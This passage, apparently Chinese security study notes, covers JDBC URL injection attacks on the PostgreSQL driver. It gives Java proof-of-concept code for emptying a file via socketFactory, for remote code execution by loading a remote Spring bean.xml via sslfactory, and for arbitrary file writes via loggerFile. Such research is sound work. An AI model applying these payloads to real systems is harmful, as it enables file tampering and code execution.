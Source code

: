 ![image-20221210120034204](images/72.png)

还可以通过FileOutputStream将任意文件置空

```
package com.example.testspring;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class PostGreSqlTest {
    public static void main(String[] args) throws SQLException {
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=java.io.FileOutputStream&socketFactoryArg=test.txt";
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

### 任意代码执行 sslfactory/sslfactoryarg

```
package com.example.testspring;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class PostGreSqlTest {
    public static void main(String[] args) throws SQLException {
        String sslfactory = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String sslfactoryarg = "http://127.0.0.1:8088/bean.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?sslfactory="+sslfactory+ "&sslfactoryarg="+sslfactoryarg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

这种要先监听5432端口

### 任意文件写入 loggerLevel/loggerFile

可以将日志信息保存到文件

```
package com.example.testspring;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class PostGreSqlTest {
    public static void main(String[] args) throws SQLException {
        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="test";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```
